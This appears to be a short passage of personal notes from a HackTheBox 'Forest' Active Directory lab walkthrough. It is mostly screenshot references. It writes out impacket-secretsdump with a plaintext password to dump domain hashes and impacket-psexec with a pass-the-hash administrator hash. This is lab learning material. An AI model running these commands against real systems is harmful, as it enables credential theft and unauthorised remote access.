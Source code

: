 ![[Pasted image 20241212203305.png]]

Check target machine time with nmap scan

![[Pasted image 20241212203357.png]]

Issues resolved:

![[Pasted image 20241212204627.png]]


-----
### My attempt with PowerView and what not didn't work.

Tested with 

#### impacket-ntlmrelayx

[Ref Blog](https://medium.com/@Poiint/htb-forest-write-up-800ae3ab8ace)
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250602215805.png]]

#### impacket-secretsdump

```
impacket-secretsdump htb.local/rachello:'Penny1!'@htb.local
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250602215953.png]]

#### impacket-psexec

```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250602220456.png]]